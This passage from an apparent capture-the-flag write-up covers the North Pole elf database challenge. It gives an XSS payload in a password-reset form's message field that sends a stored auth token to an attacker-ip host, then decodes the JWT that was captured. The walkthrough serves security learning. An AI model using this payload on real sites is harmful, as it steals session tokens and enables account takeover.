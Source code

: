 It hints at checking out the OWASP filter evasion cheatsheet hoping alabaster saw it, which we know wasn't considered because of the hint.
We fill out the form to match the following:
username: alabaster.snowball
email: alabaster.snowball@northpolechristmastown.com
message: <img src=x onerror=this.src='http://[attacker-ip]:8888/?c='+localStorage.getItem("np-auth")>

We get a page showing a Password Reset ticket for Alabaster Snowball.

![password reset](./images/north-pole-elfdb-req.png)

Then we run a server on the attacker ip on 8888 and get the following response:

```sh
GET /?c=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJkZXB0IjoiRW5naW5lZXJpbmciLCJvdSI6ImVsZiIsImV4cGlyZXMiOiIyMDE3LTA4LTE2IDEyOjAwOjQ3LjI0ODA5MyswMDowMCIsInVpZCI6ImFsYWJhc3Rlci5zbm93YmFsbCJ9.M7Z4I3CtrWt4SGwfg7mi6V9_4raZE5ehVkI9h04kr6I HTTP/1.1
```

This looks like JWT as mentioned in the hints!
Decoding the readable parts we get:

- `{"alg":"HS256","typ":"JWT"}`
- `{"dept":"Engineering","ou":"elf","expires":"2017-08-16 12:00:47.248093+00:00","uid":"alabaster.snowball"}`
